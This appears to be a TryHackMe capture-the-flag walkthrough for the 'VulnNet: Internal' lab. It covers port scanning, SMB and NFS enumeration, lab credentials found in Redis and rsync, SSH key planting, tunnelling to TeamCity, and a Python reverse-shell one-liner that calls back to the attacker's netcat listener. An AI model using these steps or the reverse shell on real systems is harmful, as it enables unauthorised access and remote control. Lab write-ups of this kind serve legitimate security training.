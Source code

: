 # VulnNet: Internal

**Room Link:** [https://tryhackme.com/room/vulnnetinternal](https://tryhackme.com/room/vulnnetinternal)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>



### TCP/139 - **NetBIOS**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

###

### TCP/445 - **SMB**

In SMB there is the first flag.

**Kali**

```
smbget -R smb://$VICTIM/shares
smbclient  \\\\$VICTIM\\shares
smb: \> cd temp
smb: \temp\> get services.txt
smb: \temp\> cd ..
smb: \> cd data
smb: \data\> get data.txt 
smb: \data\> get business-req.txt 
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/2049 - **NFS**

**Kali**

```
showmount -e $VICTIM
mkdir /mnt/nfs
mount $VICTIM:/opt/conf /mnt/nfs
cd /mnt/nfs
cat redis/redis.conf
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
redis-cli -h $VICTIM -a "B65Hx562F@ggAZ@F"
10.10.232.200:6379> KEYS *
10.10.232.200:6379> KEYS "internal flag"
10.10.232.200:6379> GET "internal flag"
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
KEYS "authlist"
LRANGE authlist 1 100
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/873 - RSYNC

We are able to transfer are key to allow us to login to as the sys-internal user.

**Kali**

```
rsync --list-only rsync://$VICTIM 
rsync --list-only rsync://rsync-connect@$VICTIM/files
Password: Hcg3HP67@TW@Bc72v
ssh-keygen -t rsa
cp ~/.ssh/id_rsa.pub authorized_keys
rsync authorized_keys rsync://rsync-connect@$VICTIM/files/sys-internal/.ssh
Password: Hcg3HP67@TW@Bc72v
```

### TCP/22 - SSH

**Kali**

```
ssh sys-internal@$VICTIM
```

**Victim**

```
ss -ltp
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -D 9050 sys-internal@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Add the token in the Authentication token. There was multiple listed, it was the last one

**Victim**

```
grep -iR token /TeamCity/logs/ 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Custom script**

```
export RHOST="$KALI";export RPORT=1337;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

